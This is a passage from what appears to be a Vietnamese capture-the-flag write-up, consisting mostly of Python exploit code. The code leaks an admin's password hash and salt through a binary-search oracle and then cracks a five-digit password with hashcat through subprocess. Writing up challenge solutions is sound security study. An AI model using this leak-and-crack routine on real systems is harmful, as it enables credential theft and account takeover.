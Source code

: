 ```python
      pos = changeField(field_name, field_value_guess)
      if pos == -1:
        L = M
      else:
        R = M
    if len(field_value) != length - 1:
      field_value += alphabet[L]
      print(f"[*] FOUND: {field_value} [{len(field_value)}/{length}]")
    else:
      # Final check character is a headache
      if L == 0:
        if changeField(field_name, field_value + alphabet[L]) == -1:
          field_value += alphabet[L + 1]
        else:
          field_value += alphabet[L]
      else:
        field_value += alphabet[L + 1]
      print(f"[*] FOUND: {field_value} [{len(field_value)}/{length}]")
  return field_value

############## PART 1 ##############
print("[!] ############## PART 1 ##############")
print("[!] Leaking admin hash")
admin_hash = leak_field('hash', 64)
print("[!] Leaking admin salt")
admin_salt = leak_field('salt', 32)
```

Vì mật khẩu user `Dat2Phit` chỉ có 5 kí tự số (0-9), ta có thể crack cái hash trên bằng `hashcat`.
```python
hash_cat_string = f"sha256:25000:{b64encode(admin_salt.encode()).decode()}:{b64encode(unhexlify(admin_hash)).decode()}"
print(f"[*] hashcat string: {hash_cat_string}")
hash_file = "hash"
with open(hash_file, 'w') as f:
  f.write(hash_cat_string)
hashcat_command = f"hashcat -a 3 -m 10900 {hash_file} ?d?d?d?d?d"
print(f"[!] Cracking with hashcat: hashcat -a 3 -m 10900 {hash_file} ?d?d?d?d?d")

try:
    output = subprocess.check_output(hashcat_command, shell=True).decode("utf-8")
    if "--show" in output:
      output = subprocess.check_output(hashcat_command + " --show", shell=True).decode("utf-8")
    admin_password = output.split(hash_cat_string + ":")[1].split("\n")[0]
    print(f"[+] Found admin password: { admin_password }")
except subprocess.CalledProcessError as e:
    print(f"Error executing hashcat command: {e}")
    if os.path.exists(hash_file):
      os.remove(hash_file)
    exit()
```
